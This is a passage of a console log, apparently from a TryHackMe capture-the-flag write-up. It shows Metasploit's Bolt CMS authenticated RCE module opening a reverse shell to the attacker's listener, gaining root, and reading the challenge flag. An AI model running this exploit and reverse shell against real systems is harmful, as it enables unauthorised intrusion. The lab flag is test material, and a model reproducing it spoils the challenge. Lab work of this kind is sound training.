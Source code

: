 ```bash
                                     pecified)
   LPORT  ****             yes       The listen port

>
Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.13.5.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "jeqhey".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file lmpnfitomox.php.
[+] Used token c925498ee60f13926398453f59 to create xqhmfgwkxox.php.
[*] Attempting to execute the payload via "/files/xqhmfgwkxox.php?jeqhey=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.13.5.5:4444 -> 10.10.162.118:57122) at 2023-08-12 16:42:27 -0400
[+] Deleted file xqhmfgwkxox.php.
[+] Reverted user profile back to original state.

bash
sh
whoami
root
pwd
/home/bolt/public/files
ls -la
total 16
drwxrwxrwx 2 501 staff 4096 Aug 12 20:42 .
drwxr-xr-x 7 501 staff 4096 Jul 18  2020 ..
-rw-r--r-- 1 501 staff  195 May  7  2020 .htaccess
-rw-r--r-- 1 501 staff    4 May  7  2020 index.html
cd /home
ls -la
total 288
drwxr-xr-x  3 root root   4096 Jul 18  2020 .
drwxr-xr-x 27 root root   4096 Jul 18  2020 ..
drwxr-xr-x 10 bolt bolt   4096 Jul 18  2020 bolt
-rw-r--r--  1 root root 277509 Jul 18  2020 composer-setup.php
-rw-r--r--  1 root root     34 Jul 18  2020 flag.txt
cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
```

